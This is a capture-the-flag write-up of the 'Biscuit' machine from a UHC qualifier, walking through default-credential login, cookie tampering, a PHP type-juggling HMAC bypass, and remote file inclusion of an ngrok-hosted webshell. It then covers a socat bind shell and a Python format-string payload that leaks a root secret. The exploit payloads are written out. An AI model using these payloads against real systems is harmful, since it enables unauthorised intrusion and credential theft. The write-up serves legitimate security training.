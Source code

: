 ```yaml
---
layout: article
title:  "UHCCTF (Classificatória) - Biscuit (Official Write-Up) - eng"
tags: eng ctf
---
```

 

Hello, I'm Vinicius (big0us), this is a write-up of a machine that was the challenge for one of UHC's qualifiers. (translate to english by [0day](https://twitter.com/0dayctf))
Happy reading :)
g00d_h4ck1ng

# Recon

![/assets/biscuit/Untitled.png](/assets/biscuit/Untitled.png)

The first page you're greeted with a login page, taking a look at the HTML of the page, apparently there's
nothing hidden, I'll fuzz first, then we can test some credentials.

![/assets/biscuit/Untitled%201.png](/assets/biscuit/Untitled%201.png)

Apparently our fuzzing only showed a /class, where there is a directory listing pointing
to a ".php" file.

![/assets/biscuit/Untitled%202.png](/assets/biscuit/Untitled%202.png)

Okay, let's test some default credentials in the login form:

```
admin:admin
guest:guest
administrator:admin
root:root
```

By testing "guest:guest" we were able to enter:

![/assets/biscuit/Untitled%203.png](/assets/biscuit/Untitled%203.png)

Looking around apparently, we only have a welcome page.
Let's check our cookies.

![/assets/biscuit/Untitled%204.png](/assets/biscuit/Untitled%204.png)

![/assets/biscuit/Untitled%205.png](/assets/biscuit/Untitled%205.png)

Using cyberchef to decode the cookie, we can see that it's JSON with three values:
hmac (probably something that validates the values), username, and a time for the
cookie to expire.

I'm going to try to change the username value in the cookie to "admin" with base64 & URL encoding, and
then send back to the application.

![/assets/biscuit/Untitled%206.png](/assets/biscuit/Untitled%206.png)

This page showed an error saying that we're trying to do "cookie tampering", and
returned a flag! The first flag.
After some tests, sending cookies with other random values, I realized that
the application validates the cookie by the value of hmac, and not by the entire content
of json.
A well-known vulnerability about PHP validations is type-juggling, which consists of
bypassing authentications by making any if($ == $) that will always return "true".

[PHP Tricks (SPA)](https://book.hacktricks.xyz/pentesting/pentesting-web/php-tricks-esp)

[PHP Type Juggling Vulnerabilities](https://medium.com/swlh/php-type-juggling-vulnerabilities-3e28c4ed5c09)

![/assets/biscuit/Untitled%207.png](/assets/biscuit/Untitled%207.png)

Basically when a programmer uses "==" in a php comparison, first it makes the two values
the same type, ignoring the type (int, str...) of the variables.
And in this situation we can use some techniques for the comparison to return "true".

# Exploitation

After trying for quite a while, I tried changing the value of "hmac" to "true" and luckily it
worked!

![/assets/biscuit/Untitled%208.png](/assets/biscuit/Untitled%208.png)

```json
{"hmac":true,"username":"admin","expiration":1625435484}
```

![/assets/biscuit/Untitled%209.png](/assets/biscuit/Untitled%209.png)

Okay :( I was sad that there are no flags here.
I'll try to change the username again, to understand what's going on.

Changing to "test", php gives us an error, it seems it's running a "require_once" on
the value we put & appending ".php" at the end. require_once is normally used to include
pages and php files in websites, and when the user has control over the value that
require_once uses, the application is vulnerable to LFI or RFI (Local/Remote File
Inclusion).

![/assets/biscuit/Untitled%2010.png](/assets/biscuit/Untitled%2010.png)

As the application already puts the .php at the end, I will do the following.
Upload a file with a webshell on a server using ngrok, then tell the application to include my
file and get an RCE.

![/assets/biscuit/Untitled%2011.png](/assets/biscuit/Untitled%2011.png)

And I will send the payload:

```json
{"hmac":true,"username":"https://3b4f8afabab2.ngrok.io/shell","expiration":1625435484}
```

(The application now puts the .php)

We have RCE!!

![/assets/biscuit/Untitled%2012.png](/assets/biscuit/Untitled%2012.png)

Now I'm going to try to get a reverse shell.
After a few attempts I realized that there is a firewall in the application that blocks any
communication on ports other than 80 or 443, since I don't have a VPS, I'll do it differently, instead of a reverse shell (where the victim connects back to me) I'm going to use a bind shell (opening a port on the machine and connecting to it). For this I will use "socat".

[socat | GTFOBins](https://gtfobins.github.io/gtfobins/socat/#bind-shell)

![/assets/biscuit/Untitled%2013.png](/assets/biscuit/Untitled%2013.png)

First I got the socat binary in their github (socat binary) and passed it to the machine
using the web-server that I created to get RCE, and curling it.
I ran the commands that are in the image and got a bind shell! (I used port 6969)

![/assets/biscuit/Untitled%2014.png](/assets/biscuit/Untitled%2014.png)

In "/" have our next flag:

![/assets/biscuit/Untitled%2015.png](/assets/biscuit/Untitled%2015.png)

# Post Exploitation

Doing the basic privesc checklist, we can see that we are the apache user and we
can run a script as root on the machine:

![/assets/biscuit/Untitled%2016.png](/assets/biscuit/Untitled%2016.png)

Apparently we can't read the script or change it.

![/assets/biscuit/Untitled%2017.png](/assets/biscuit/Untitled%2017.png)

What's left for us to do, is to simply RUN IT!:

![/assets/biscuit/Untitled%2018.png](/assets/biscuit/Untitled%2018.png)

The file prints an IP with option 2 (List Blocked IP's), taking a look at /var/www/html the web application path, we
can see that there is a file with the same IP that was printed, so it's printing the IP that is in the file.

![/assets/biscuit/Untitled%2019.png](/assets/biscuit/Untitled%2019.png)

I opened the file with nano (before running 'export TERM=xterm' !!) and started editing
it, to try and provoke some type of error in python that would show me something from the
program.

![/assets/biscuit/Untitled%2020.png](/assets/biscuit/Untitled%2020.png)

![/assets/biscuit/Untitled%2021.png](/assets/biscuit/Untitled%2021.png)

Interestingly, there is a different (not used often) format string running.
Searching about this type of format string + vulnerabilites, I ended up stumbling on this
article.

[Are there any Security Concerns to using Python F Strings with User Input](https://security.stackexchange.com/questions/238338/are-there-any-security-concerns-to-using-python-f-strings-with-user-input)

Basically it explains everything we need to do, so I won't explain it again, but
the way this format string works, allows us to inject more strings to be formatted, and if
this is printed we can print all the global variables that the file uses, usually giving us
some key or password.

Okay here is my final payload.

```json
{"ips":["{ip.list_blocked.__globals__}"]}
```

![/assets/biscuit/Untitled%2022.png](/assets/biscuit/Untitled%2022.png)

This worked and we got the value of a variable called root_secret, it's probably
the root password.

![/assets/biscuit/Untitled%2023.png](/assets/biscuit/Untitled%2023.png)

Worked!!
Thanks to you who've read this far, I hope you enjoyed this challenge / writeup!
